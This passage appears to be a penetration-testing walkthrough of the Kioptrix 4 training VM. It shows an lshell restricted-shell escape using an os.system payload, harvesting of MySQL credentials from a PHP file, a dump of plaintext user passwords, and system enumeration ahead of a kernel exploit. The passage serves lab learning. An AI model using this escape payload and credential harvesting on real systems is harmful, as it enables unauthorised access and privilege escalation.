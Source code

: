 ```bash
    if cmdargs[1] not in self.conf['sudo_commands'] and cmdargs:
TypeError: 'NoneType' object is unsubscriptable
Connection to 192.168.137.135 closed.
```
And then [this](https://github.com/ghantoos/lshell) came up.  To be honest it took a bit of nudging and very careful googling to give me a hint that I was going in the wrong direction.  

There is an exploit for this version of lshell, and while I could get it to work escaping the shell, I couldn't wget any wanted scripts or do anything of any real use on the box without it hanging.  However, we know we can input commands, so with some more careful googling:

```bash
root@kali:~/Documents# ssh 192.168.137.135 -l john
john@192.168.137.135's password: 
Welcome to LigGoat Security Systems - We are Watching
== Welcome LigGoat Employee ==
LigGoat Shell is in place so you  don't screw up
Type '?' or 'help' to get the list of allowed commands
john:~$ echo os.system('/bin/bash')
```

Well that works, and now we have a shell but we need to escalate our privileges.  

So I thought it would be a good idea to check out /var/www/ and see if I could harvest credentials.  Checklogin.php had the database ones we needed.
```php
$host="localhost"; // Host name
$username="root"; // Mysql username
$password=""; // Mysql password
$db_name="members"; // Database name
$tbl_name="members"; // Table name
```

So I loaded up mysql and sought after some credentials.  In the members table we get what we're looking for.

```mysql
mysql> SELECT * FROM members;
+----+----------+-----------------------+
| id | username | password              |
+----+----------+-----------------------+
|  1 | john     | MyNameIsJohn          | 
|  2 | robert   | ADGAdsafdfwt4gadfga== | 
+----+----------+-----------------------+
2 rows in set (0.00 sec)
```

So I hoped maybe I could use roberts credentials to get a higher level of privilege, but alas he has exactly the same restrictions as john.

Exploit
---------

After a lot of searching I decided to see if a kernel exploit existed.
```bash
robert@Kioptrix4:/$ cat /etc/*-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=8.04
DISTRIB_CODENAME=hardy
DISTRIB_DESCRIPTION="Ubuntu 8.04.3 LTS"

Linux version 2.6.24-24-server
robert@Kioptrix4:/$ uname -a
Linux Kioptrix4 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686 GNU/Linux
```
